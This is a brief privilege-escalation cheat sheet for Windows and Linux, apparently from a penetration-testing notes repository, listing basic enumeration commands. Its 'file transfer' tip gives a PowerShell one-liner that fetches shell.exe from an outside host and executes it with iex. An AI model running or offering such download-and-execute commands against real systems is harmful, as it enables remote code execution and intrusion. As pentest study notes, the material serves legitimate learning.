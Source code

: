 # Windows Privilege Escalations
## Important tips

- Use powershell for file transfers

``` iex(iwr http://10.10.10.100/shell.exe) ```

## Basic Enum
Command | Result 
systeminfo  |   Get system information ; is system x64/x86 ; are any patches applied

# Linux Privilege Escalations

## Important tips

## Basic Enum
Command | Result 
------------ | -------------
whoami;id;uname -a | Get username and OS info



